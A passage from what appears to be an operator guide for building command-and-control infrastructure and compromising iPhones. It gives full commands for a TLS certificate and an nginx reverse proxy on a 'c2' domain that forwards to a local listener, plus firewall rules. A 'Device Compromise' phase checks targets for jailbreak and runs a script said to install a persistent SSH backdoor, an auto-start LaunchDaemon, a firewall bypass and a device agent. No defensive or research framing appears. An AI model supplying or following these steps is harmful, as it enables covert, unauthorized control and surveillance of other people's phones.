 ### Step 2: Configure SSL/TLS

```bash
# Generate SSL certificate
certbot certonly --standalone -d your-c2-domain.com

# Configure nginx reverse proxy
cat > /etc/nginx/sites-available/c2 <<EOF
server {
    listen 443 ssl http2;
    server_name your-c2-domain.com;
    
    ssl_certificate /etc/letsencrypt/live/your-c2-domain.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/your-c2-domain.com/privkey.pem;
    
    location / {
        proxy_pass http://127.0.0.1:8443;
        proxy_set_header Host \$host;
        proxy_set_header X-Real-IP \$remote_addr;
    }
}
EOF

# Enable and restart nginx
ln -s /etc/nginx/sites-available/c2 /etc/nginx/sites-enabled/
systemctl restart nginx
```

### Step 3: Configure Firewall

```bash
# Allow only necessary ports
ufw allow 443/tcp
ufw allow 22/tcp
ufw enable
```

---

## Phase 2: Device Compromise

### Method 1: Jailbroken Device (Preferred)

```bash
# Check if device is jailbroken
ideviceinfo -u DEVICE_UDID | grep -i jailbreak

# If jailbroken, install SSH backdoor
python3 iphone_remote_access.py --device DEVICE_UDID --method ssh

# This will:
# 1. Install persistent SSH daemon
# 2. Create LaunchDaemon for auto-start
# 3. Configure firewall bypass
# 4. Install device agent
```
